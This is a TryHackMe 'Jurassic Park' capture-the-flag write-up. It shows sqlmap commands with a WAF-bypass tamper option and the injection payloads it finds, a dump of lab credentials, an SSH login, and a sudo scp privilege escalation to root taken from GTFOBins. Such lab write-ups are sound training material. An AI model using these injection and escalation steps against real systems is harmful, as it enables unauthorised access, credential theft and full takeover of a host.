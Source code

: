 ```yaml
---
title: "Jurassic Park Write-up"
date: 2025-07-05 14:00:00
categories: [Tryhackme, Challenges]
tag: [Enumeration, SQL Injection, Privilege Escalation]
---
```




[tryhackme Room](https://tryhackme.com/room/jurassicpark)

---

# Objective:

Enumerate the web application, obtain credentials to the server, and find four flags hidden in the file system.

## Enumeration:

**Port Scanning**

```bash
sudo nmap -sS -F -n 10.10.165.112
Nmap scan report for 10.10.165.112
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.22 seconds
```

visited the website on port 80, while I was viewing the tickets, I modified the URL to the `id=5` parameter, which revealed a ticket priced 0.

![image](https://github.com/user-attachments/assets/bee5e0b8-a332-4615-a07a-1481282dc139)

To test if the website is vulnerable to SQL injection, add a single quote next to the id `id=5'`, which will break the database query.

![image](https://github.com/user-attachments/assets/44f1db2f-d16e-47c0-b3ea-338377e60b3c)

we have confiremed that the website is vulnerable to **SQLi**, I used [SQLmap](https://sqlmap.org/) tool to automate the process of detection and exploiting **SQLi vulnerability**.

Before starting the attack, inject a malformed query and check the error message to identify the database.

![image](https://github.com/user-attachments/assets/4aac1e8f-0337-4906-b128-c24930055aa2)

This confirms that the back-end database is **MySQL**. Now let's start SQLi attack. I added this option `--tamper=space2comment.py` to bypass common WAF filters

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbs --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
...
sqlmap identified the following injection point(s) with a total of 261 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=5 AND 6078=6078

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=5 AND GTID_SUBSET(CONCAT(0x7162767a71,(SELECT (ELT(3314=3314,1))),0x717a626271),3314)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=5 AND (SELECT 3423 FROM (SELECT(SLEEP(5)))jsGZ)
---
[10:30:24] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:30:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[10:30:25] [INFO] fetching database names
[10:30:26] [INFO] retrieved: 'information_schema'
[10:30:26] [INFO] retrieved: 'mysql'
[10:30:26] [INFO] retrieved: 'park'
[10:30:26] [INFO] retrieved: 'performance_schema'
[10:30:26] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] mysql
[*] park
[*] performance_schema
[*] sys

[10:30:26] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'

```

**Findings:**
- Databases: information_schema, mysql, park, performance_schema, sys.
- Target database: park.

## Database Enumeration

Extract tables from **park**

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park --tables --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.4#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
[10:53:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[10:53:45] [INFO] testing MySQL
[10:53:45] [INFO] confirming MySQL
[10:53:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[10:53:46] [INFO] fetching tables for database: 'park'
[10:53:46] [INFO] retrieved: 'items'
[10:53:46] [INFO] retrieved: 'users'
Database: park
[2 tables]
+-------+
| items |
| users |
+-------+

[10:53:46] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.165.112'
```
**Findings:**
- Tables:  items, users

## Credential Dumping

```bash
sqlmap -u "http://10.10.165.112/item.php?id=5" --dbms=mysql -D park -T items,users --dump --random-agent  --tamper=space2comment.py
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.4#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
              
---

Database: park
Table: items
[5 entries]

| id  | sold | price  | package     | information                                                                                                                                                                            |
+-----+------+--------+-------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1   | 4    | 500000 | Gold        | Childen under 5 can attend free of charge and will be eaten for free. This package includes a dinosaur lunch, tour around the park AND a FREE dinosaur egg from a dino of your choice! |
| 2   | 11   | 250000 | Bronse      | Children under 5 can attend free of charge and eat free. This package includes a tour around the park and a dinosaur lunch! Try different dino's and rate the best tasting one!        |
| 3   | 27   | 100000 | Basic       | Children under 5 can attend for free and eat free. This package will include a basic tour around the park in the brand new automated cars!                                             |
| 5   | 0    | 0      | Development | Dennis, why have you blocked these characters: ' # DROP - username @ ---- Is this our WAF now?                                                                                         |
| 100 | -1   | -1     | ...         | Nope                                                                                                                                                                                   |
---

Database: park
Table: users
[2 entries]
+----+-----------+----------+
| id | password  | username |
+----+-----------+----------+
| 1  | D0nt3ATM3 |          |
| 2  | ih8dinos  |          |
+----+-----------+----------+

```

Used credentials (`dennis:ih8dinos`) to access the machine:

## Initial Access

```bash
ssh dennis@10.10.165.112     
The authenticity of host '10.10.165.112 (10.10.165.112)' can't be established.
ED25519 key fingerprint is SHA256:RgFyYsoL/n7m7p/t714RGHLqLtFNcn/+9tndcXsYijA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
dennis@10.10.165.112's password: 

dennis@ip-10-10-165-112:~$ whoami
dennis
```

The user doesn't have root access. To gain privileged access, the first thing you do is to check what privileged commands your current user is allowed to run with `sudo` without requiring a password.

```bash
dennis@ip-10-10-165-112:~$ ls -al
total 52
drwxr-xr-x 4 dennis dennis 4096 Jul  5 15:27 .
drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
-rw------- 1 dennis dennis 1001 Feb 16  2019 .bash_history
-rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
-rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
drwx------ 2 dennis dennis 4096 Jul  5 15:06 .cache
-rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt
drwxrwxr-x 2 dennis dennis 4096 Jul  5 15:15 .nano
-rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
-rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh
-rw-r--r-- 1 dennis dennis 4096 Jul  5 15:21 .test.txt.swp
-rw------- 1 dennis dennis 4631 Jul  5 15:27 .viminfo
dennis@ip-10-10-165-112:~$ 
dennis@ip-10-10-165-112:~$ sudo -l
Matching Defaults entries for dennis on ip-10-10-165-112.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-165-112.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

## Privilege Escalation

Followed [GTFOBins](https://gtfobins.github.io/gtfobins/scp/) to abuse `scp`.

1. Created a temporary file with a reverse shell payload

```bash
TF=$(mktemp)                      
echo 'sh 0<&2 1>&2' > $TF      
chmod +x "$TF"                    
```

2. Executed scp with the malicious payload

```bash
sudo scp -S $TF x y:                   
```
`-S $TF` tells `scp` to use `$TF` (our script) instead of the default SSH for the connection. Since scp runs as root (via `sudo`), our payload executes with root privileges.

![image](https://github.com/user-attachments/assets/31b117cf-7d60-42e2-a42a-58296d63ef36)

